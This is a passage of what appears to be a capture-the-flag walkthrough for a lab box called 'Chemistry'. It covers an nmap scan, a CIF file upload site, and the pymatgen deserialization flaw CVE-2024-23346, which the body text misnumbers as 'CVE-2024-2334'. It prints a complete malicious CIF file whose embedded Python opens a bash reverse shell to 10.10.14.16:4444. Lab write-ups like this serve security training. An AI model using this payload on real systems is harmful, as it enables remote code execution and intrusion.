




# Chemistry - Linux(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC 
-sV Version Scan
```



We can see that there appears to be a HTTP web page hosted on port 5000.

## Web Page Investigation
We can try connecting directly to the web page.
```
http://<target IP>:5000
```
We can access the site. This shows a CIF Analyzer with a Login/Register options.



Next we can register and login to the site. This brings us to a CIF file upload page.



Download the example CIF file available on the dashboard.




## CIF Vulnerability
Next, we can check if there are any vulnerabilities associated with CIF files that we can use to gain access to the box.

Searching online and we find CVE-2024-2334 which can be used for 'Arbitrary Code Execution in Pymatgen via Insecure Deserialization'.
```
Reference: 
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346
```
Using the example in the articles we can craft a payload that reaches back to our attacking machine.

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__
( 
	*[().__class__.__mro__[1]]
	+
	["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]
[0].load_module("os")
.system("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.16/4444 0>&1\'");
0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


